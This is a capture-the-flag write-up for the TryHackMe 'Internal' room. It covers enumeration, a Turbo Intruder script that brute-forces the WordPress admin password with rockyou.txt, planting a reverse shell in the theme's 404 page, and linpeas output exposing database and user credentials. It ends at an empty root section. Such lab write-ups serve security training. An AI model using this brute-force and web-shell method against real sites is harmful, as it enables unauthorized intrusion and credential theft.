

# (THM)

- https://tryhackme.com/room/internal
- April 10, 2023
- hard

---

## Enumeration

### Nmap

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```

### HTTP

- enter `$IP internal.thm` inside `/etc/hosts` file
- default apache page


- directory brute forcing with ffuf 

```
blog                    [Status: 301, Size: 311, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 317, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- blog and wordpress directories are wordpress 
- for easy win, run nuclei and found 2 potential vulnerabilities
- `nuclei -u http://internal.thm/blog -tags wordpress -o nuclei_blog.txt`


- username `admin` and login page
- brute force with that username 
- I used turbo intruder from burp suite

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=50,
                           pipeline=True
                           )
    for pwd in open('/usr/share/wordlists/rockyou.txt'):
        engine.queue(target.req, pwd.strip())

def handleResponse(req, interesting):
    if req.status != 200:
        table.add(req)
```
- found password for admin user



- try to add reverse shell in 404 page


- replace with custom IP and port

## User Access

- find the route that will get request our custom 404.php page
- listen with nc and curl to that url and get www-data user access


- in `/var/www/html/wp-config.php` file, found database credentials


- enter, not success
- interesting facts from linpeas result

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35455         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 root root 3109 Aug  3  2020 /var/www/html/wordpress/wp-config.php
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wordpress' );
define( 'DB_PASSWORD', 'wordpress123' );
define( 'DB_HOST', 'localhost' );
```

```
╔══════════╣ Searching ssl/ssh files
PermitRootLogin yes
```

```
╔══════════╣ Searching passwords in config PHP files
$dbpass='B2Ud4fEOZmVq';
$dbuser='phpmyadmin';
```

```
╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
```
- in wp-save.txt file, there was a credential for user `aubreanna`

## Root Access
